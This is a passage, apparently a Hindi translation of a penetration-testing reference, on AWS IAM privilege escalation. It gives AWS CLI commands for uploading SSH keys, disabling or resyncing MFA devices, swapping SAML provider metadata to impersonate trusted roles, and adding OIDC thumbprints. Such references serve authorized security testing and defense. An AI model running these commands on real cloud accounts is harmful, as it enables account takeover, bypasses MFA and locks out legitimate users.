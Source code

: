 **SSH कुंजी अपलोड के लिए शोषण:**
```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```
**MFA निष्क्रियकरण के लिए शोषण:**
```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```
**प्रभाव:** कोडकमिट एक्सेस सक्षम करके या MFA सुरक्षा को निष्क्रिय करके अप्रत्यक्ष विशेषाधिकार वृद्धि।

### **`iam:ResyncMFADevice`**

MFA डिवाइस के पुनर्संक्रमण की अनुमति देता है, जो संभावित रूप से MFA सुरक्षा में हेरफेर करके अप्रत्यक्ष विशेषाधिकार वृद्धि की ओर ले जा सकता है।

**बाश कमांड:**
```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
--authentication-code1 <code1> --authentication-code2 <code2>
```
**प्रभाव:** MFA उपकरणों को जोड़ने या हेरफेर करके अप्रत्यक्ष विशेषाधिकार वृद्धि।

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

इन अनुमतियों के साथ आप **SAML कनेक्शन के XML मेटाडेटा को बदल सकते हैं**। फिर, आप **SAML संघ** का दुरुपयोग करके **किसी भी भूमिका के साथ लॉगिन** कर सकते हैं जो इसे **विश्वास** करती है।

ध्यान दें कि ऐसा करने पर **वैध उपयोगकर्ता लॉगिन नहीं कर पाएंगे**। हालाँकि, आप XML प्राप्त कर सकते हैं, इसलिए आप अपना डाल सकते हैं, लॉगिन कर सकते हैं और पिछले को फिर से कॉन्फ़िगर कर सकते हैं।
```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```
> [!NOTE]
> TODO: एक उपकरण जो SAML मेटाडेटा उत्पन्न करने और निर्दिष्ट भूमिका के साथ लॉगिन करने में सक्षम हो

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)

(इस बारे में अनिश्चित) यदि एक हमलावर के पास ये **अनुमतियाँ** हैं, तो वह सभी भूमिकाओं में लॉगिन करने के लिए प्रदाता पर भरोसा करने वाले नए **थंबप्रिंट** को जोड़ सकता है।
```bash
# List providers
aws iam list-open-id-connect-providers
# Optional: Get Thumbprints used to not delete them
aws iam get-open-id-connect-provider --open-id-connect-provider-arn <ARN>
# Update Thumbprints (The thumbprint is always a 40-character string)
aws iam update-open-id-connect-provider-thumbprint --open-id-connect-provider-arn <ARN> --thumbprint-list 359755EXAMPLEabc3060bce3EXAMPLEec4542a3
```
## संदर्भ
